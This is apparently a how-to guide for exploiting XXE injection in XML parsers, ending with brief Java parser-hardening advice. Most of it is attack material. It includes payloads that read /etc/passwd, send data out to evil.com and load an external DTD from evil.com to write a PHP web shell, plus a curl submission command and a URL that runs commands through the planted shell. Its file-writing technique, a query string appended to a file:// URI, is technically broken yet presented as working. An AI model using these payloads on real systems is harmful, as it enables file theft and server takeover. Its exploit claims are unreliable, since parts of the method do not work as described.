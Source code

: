 An XXE (XML External Entity) injection vulnerability occurs when an XML parser processes external entities within XML input. This can be exploited to perform a variety of attacks, including local file disclosure, SSRF (Server-Side Request Forgery), and in some cases, remote code execution by including a web shell.

Here’s an overview of how you can test for and exploit an XXE vulnerability to deploy a web shell, along with examples and mitigations.

### Steps to Exploit XXE Vulnerability for a Web Shell

1. **Identify the XXE Vulnerability**:
   - Test if the application is vulnerable by sending XML data that attempts to access a local file or an external entity.

2. **Craft a Malicious XML Payload**:
   - Create an XML payload that tries to read or write files on the server.

3. **Deploy a Web Shell**:
   - If possible, use the XXE vulnerability to write a web shell to the server’s web directory.

### Example Payloads

#### Basic XXE Payload to Read Local Files

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

#### XXE Payload to Send File Contents to a Remote Server

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://evil.com/?data=file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

#### XXE Payload to Write a Web Shell

If the server is configured in such a way that you can write files, you could use XXE to create a web shell. For example, in a PHP environment:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY % file SYSTEM "file:///path/to/webroot/shell.php">
  <!ENTITY % dtd SYSTEM "http://evil.com/external.dtd">
  %dtd;
]>
<foo>&send;</foo>
```

The external DTD (`external.dtd`) might look like this:

```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'file:///path/to/webroot/shell.php?content=<?php system($_GET[cmd]); ?>'>">
%all;
```

### Step-by-Step Exploit

1. **Test for XXE Vulnerability**:
   - Send a simple XXE payload to see if the application processes it.

2. **Determine File Paths**:
   - Identify the web root or other writable directories.

3. **Craft a Web Shell Payload**:
   - Use a payload that writes a simple web shell to the server.

4. **Send the Payload**:
   - Submit the crafted payload to the vulnerable application.

5. **Access the Web Shell**:
   - Once the web shell is written, access it via a web browser and execute commands.

### Example Attack Scenario

#### Vulnerable Service
Assume you have a service at `http://example.com/upload` that accepts XML input.

#### Craft the Payload
Create a payload to write a PHP web shell:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY % dtd SYSTEM "http://evil.com/external.dtd">
  %dtd;
]>
<foo>&send;</foo>
```

#### External DTD (`external.dtd`)
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'file:///var/www/html/shell.php?content=<?php system($_GET[cmd]); ?>'>">
%all;
```

#### Submit the Payload
Use `curl` or an HTTP client to submit the payload:

```bash
curl -X POST -d @payload.xml http://example.com/upload
```

#### Access the Web Shell
Navigate to `http://example.com/shell.php?cmd=whoami` to execute commands.

### Mitigation Strategies

1. **Disable External Entities**:
   - Configure your XML parser to disable external entities.

2. **Use Secure Parsers**:
   - Use libraries and parsers that are configured securely by default.

3. **Input Validation**:
   - Validate and sanitize all user inputs, including XML.

4. **Patch and Update**:
   - Keep your software and libraries updated with the latest security patches.

#### Example Mitigation in Java

If you're using Java, disable external entities:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

### Conclusion

XXE vulnerabilities can be severe, potentially leading to data exposure, file manipulation, and even remote code execution. Proper input validation, disabling external entities, and keeping software up-to-date are critical steps to prevent these vulnerabilities. Always test and validate the security of your XML parsing logic.
